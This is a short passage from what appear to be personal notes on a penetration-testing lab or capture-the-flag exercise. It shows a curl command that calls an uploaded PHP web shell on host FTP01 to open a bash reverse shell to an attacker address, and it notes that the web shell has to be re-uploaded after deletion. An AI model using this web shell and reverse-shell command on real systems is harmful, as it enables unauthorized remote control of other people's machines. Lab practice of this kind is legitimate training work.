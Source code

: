 once web shell is placed on `FTP01` get a reverse shell with curl and data encoding
```bash
curl -G http://10.10.110.12/documents/easy-simple-php-webshell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.39/1337 0>&1"'
```
![[Pasted image 20240530114936.png]]
files get deleted quickly, must upload web shell multiple times if it gets deleted
![[Pasted image 20240530115028.png]]
